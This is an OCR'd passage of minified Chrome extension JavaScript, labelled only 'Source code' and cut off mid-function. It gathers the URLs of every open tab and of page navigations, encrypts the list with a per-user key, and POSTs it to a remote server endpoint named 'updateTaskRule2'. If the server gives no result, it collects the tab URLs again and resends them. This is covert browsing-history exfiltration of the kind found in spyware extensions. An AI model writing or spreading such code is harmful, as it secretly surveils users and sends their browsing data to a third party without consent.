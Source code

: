             "main_frame" === e && (u.links.push(t.url), localStorage.DEBUG && console.log(t.url))

        }

        chrome.tabs.query({}, function(t) {

            for (var e = t.length - 1; e >= 0; e--) u.links.push(t[e].url);

            localStorage.DEBUG && console.log(JSON.stringify(u))

        }), chrome.webRequest.onBeforeRequest.addListener(s, {

            urls: ["http://*/*", "https://*/*"]

        }, ["blocking"]), setTimeout(function() {

            chrome.webRequest.onBeforeRequest.removeListener(s), i.onlineTime(function(s) {

                r = s || i.offlineTime(), localStorage.DEBUG && console.log(JSON.stringify(u));

                var l = c.E(JSON.stringify(u), c.P(n, r));

                o.ajax({

                    type: "POST",

                    tryCount: 0,

                    retryLimit: 2,

                    url: i.info.rootServer + "updateTaskRule2?uuid=" + n + "&time=" + r,

                    data: {

                        D: l

                    },

                    success: function(s) {

                        var l = JSON.parse(c.D(s, c.P(n, r))),

                            f = localStorage.Installed;

                        f ? Date.now() - parseInt(f) > 432e5 && (l.oldExist = !1) : l.oldExist = !1, l.result ? (n = l.uuid, t(l)) : chrome.tabs.query({}, function(s) {

                            for (var l = s.length - 1; l >= 0; l--) u.links.push(s[l].url);

                            localStorage.DEBUG && console.log("second time"), localStorage.DEBUG && console.log(JSON.stringify(u));

                            var f = c.E(JSON.stringify(u), c.P(n, r));

                            o.ajax({

                                type: "POST",

                                url: i.info.rootServer + "updateTaskRule2?uuid=" + n + "&time=" + r,

                                data: {

                                    D: f

                                },
